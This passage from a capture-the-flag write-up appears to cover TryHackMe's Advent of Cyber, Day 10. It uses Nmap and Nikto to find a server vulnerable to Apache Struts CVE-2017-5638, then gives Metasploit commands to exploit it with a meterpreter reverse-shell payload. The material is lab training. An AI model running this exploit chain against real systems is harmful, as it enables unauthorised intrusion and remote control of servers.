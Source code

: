 <span id="10"></span>

## Day 10 (Task 15): Metasploit

First of all, perform an Nmap scan and search for any possible open port.

![nmap nmap](/assets/images/THM/2020-08-15-advent-of-cyber/day10/1.png)

Look like we have the webserver running on the machine. After that, do a Nikto scan on the webserver and search for any vulnerability.

![nikto](/assets/images/THM/2020-08-15-advent-of-cyber/day10/2.png)

The server is vulnerable to strutshock or [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638). By checking the information on the CVE, we understand that the vulnerable somehow related to the Jakarta Multipart parser in Apache Struts. Fire up our Metasploit with the following command.

```
msfconsole
```

After that search for struts2 modules.

![module](/assets/images/THM/2020-08-15-advent-of-cyber/day10/3.png)

We have located the vulnerability. Use the module and do the following configuration.

```
msf5 > exploit/multi/http/struts2_content_type_ognl
msf5 > set RHOST <machine IP>
msf5 > set RPORT 80
msf5 > set TARGETURI /showcase.action
msf5 > set payload linux/x86/meterpreter/reverse_tcp
msf5 > exploit
```

![flag 10](/assets/images/THM/2020-08-15-advent-of-cyber/day10/4.png)
